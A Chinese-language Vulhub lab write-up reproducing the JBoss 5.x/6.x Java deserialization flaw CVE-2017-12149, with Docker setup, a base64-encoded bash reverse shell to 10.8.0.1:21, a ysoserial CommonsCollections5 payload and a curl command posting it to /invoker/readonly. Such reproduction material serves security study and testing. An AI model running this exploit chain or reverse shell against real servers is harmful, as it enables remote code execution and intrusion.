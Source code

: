 # JBoss 5.x 6.x 反序列化漏洞 CVE-2017-12149

## 漏洞描述

该漏洞为 Java 反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

- https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
- https://access.redhat.com/security/cve/cve-2017-12149

## 环境搭建

Vulhub 执行以下命令启动一个 Jboss 6.0 的应用：

```
docker-compose up -d
```

首次执行时会有 1~3 分钟时间初始化，初始化完成后访问 `http://your-ip:8080/` 即可看到 JBoss 默认页面。

![](images/JBoss%205.x%206.x%20反序列化漏洞%20CVE-2017-12149/image-20250813161006310.png)

## 漏洞复现

该漏洞出现在 `/invoker/readonly` 请求中，服务器将用户提交的 POST 内容进行了 Java 反序列化：

![](images/JBoss%205.x%206.x%20反序列化漏洞%20CVE-2017-12149/image-20250813175008227.png)

所以，我们用常规 Java 反序列化漏洞测试方法来复现该漏洞。

### 编写反弹 shell 的命令

我们使用 bash 来反弹 shell，但由于 `Runtime.getRuntime().exec()` 中不能使用管道符等 bash 需要的方法，我们需要用进行一次编码。

```
bash -i >& /dev/tcp/10.8.0.1/21 0>&1

# base64 编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuMS8yMSAwPiYx} | {base64,-d} | {bash,-i}
```

### 序列化数据生成

使用 [ysoserial](https://github.com/frohoff/ysoserial) 来复现生成序列化数据，由于 Vulhub 使用的 Java 版本较新，所以选择使用的 gadget 是 CommonsCollections5：

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送 POC

生成好的 POC 即为 `poc.ser`，将这个文件作为 POST Body 发送至 `/invoker/readonly` 即可：

```
curl -v POST http://your-ip:8080/invoker/readonly -H 'Content-Type: application/data' --data-binary @poc.ser
```

![](images/JBoss%205.x%206.x%20反序列化漏洞%20CVE-2017-12149/image-20250814091229978.png)

监听 21 端口，接收反弹 shell：

![](images/JBoss%205.x%206.x%20反序列化漏洞%20CVE-2017-12149/image-20250813173917758.png)
